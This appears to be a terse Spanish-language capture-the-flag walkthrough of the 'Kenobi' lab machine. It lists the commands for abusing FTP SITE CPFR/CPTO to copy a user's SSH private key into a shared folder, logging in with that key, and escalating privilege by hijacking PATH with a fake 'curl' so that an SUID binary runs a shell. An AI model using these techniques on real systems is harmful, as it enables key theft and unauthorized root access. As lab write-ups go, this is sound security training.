









KENOBI
NMAP
SMB
Listamos directorios compartidos
Entramos en el usuario y descargamos el fichero log.txt
FTP
 Searchsploit para buscar exploits en una versión de un software
Vimos que la carpeta /var estaba compartida. Movemos la clave privada a la carpeta.
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

Montamos la carpeta en nuestro equipo
Cambiamos los permisos del id_rsa
sudo chmod 600 id_rsa
SSH
Entramos en SSH con la clave privada
Buscamos carpetas con permisos
Vemos los permisos de la ruta
ls -la /usr/bin/menu
Podemos ejecutarlo con
/usr/bin/menu
Copiamos la shell /bin/sh, lo llamamos curl, le dimos los permisos correctos y luego pusimos su ubicación en nuestro path. Esto significa que cuando se ejecuta el binario /usr/bin/menu, está usando nuestra variable de entorno PATH para encontrar el binario "curl".
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
/usr/bin/menu -> op1